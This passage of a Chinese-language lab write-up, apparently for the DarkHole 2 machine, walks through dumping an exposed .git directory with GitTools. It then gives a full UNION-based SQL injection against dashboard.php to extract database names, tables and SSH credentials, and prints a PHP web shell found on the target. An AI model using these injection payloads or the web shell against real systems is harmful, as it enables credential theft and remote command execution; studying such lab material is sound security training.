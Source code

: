 ```bash
/GitTools/Dumper/gitdumper.sh http://192.168.186.147/.git/ gitdump
/GitTools/Extractor/extractor.sh . .
```

如此也能得到我们需要的commit并获取到用户信息。

### 3. SQL 注入获取用户

在dashboard的url中可以看到一个GET参数“id”，改变这个id值，页面也随之变化。把id改为“NULL”，可以发现页面中的栏变成了空的。

![image-20231212130152608](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20231212130152608.png)

接下来利用UNION query来提取信息。

在请求中利用ORDER BY可以测出有多少栏要填，依次尝试后，我发现url为`192.168.186.147/dashboard.php?id=1' ORDER BY 7 -- -`时开始出现错误，因此一共六栏。

url设为`192.168.186.147/dashboard.php?id=NULL' UNION ALL SELECT 1,2,3,4,5,6 -- - `，在页面上就可以看到2，3，5，6分别是Full name，Email，Contact numer，Address四个我们能看到的栏。

![image-20231212130244974](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20231212130244974.png)

利用url`192.168.186.147/dashboard.php?id=NULL' UNION ALL SELECT 1,GROUP_CONCAT(schema_name),3,4,5,6 FROM information_schema.schemata -- -`，得到database一共有`‘mysql,information_schema,performansce_shcema,sys,darkhole_2’`，其中darkhole_2是我们要的。

![image-20231212130515906](C:\Users\Administrator\AppData\Roaming\Typora\typora-user-images\image-20231212130515906.png)

于是再用url`192.168.186.147/dashboard.php?id=NULL' UNION ALL SELECT 1,GROUP_CONCAT(table_name),3,4,5,6 FROM information_schema.tables WHERE table_schema='darkhole_2'-- -`，得到table有`‘ssh,users’`。

![img](https://nepcodex.com/wp-content/uploads/2021/09/image-60.png)

接着用url`192.168.186.147/dashboard.php?id=NULL' UNION ALL SELECT 1,GROUP_CONCAT(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name='ssh'-- -`得到`‘id,pass,user’`三项。

![img](https://nepcodex.com/wp-content/uploads/2021/09/image-61.png)

最终`192.168.186.147/dashboard.php?id=NULL' UNION ALL SELECT 1,user,pass,4,5,6 FROM ssh-- -`，把password和username给dump出来，获得用户`jehad`及其密码。

### 4.提权获取root

利用之前获得的用户，可以查看靶机的更多内容。

```bash
cat /etc/crontab
```

就可以看到cronjob正在用户losy下运行，端口为9999。

查看对应的php文件：

```php
<?php
echo "Parameter GET['cmd']";
if(isset($_GET['cmd'])){
echo system($_GET['cmd']);
}

?>
```
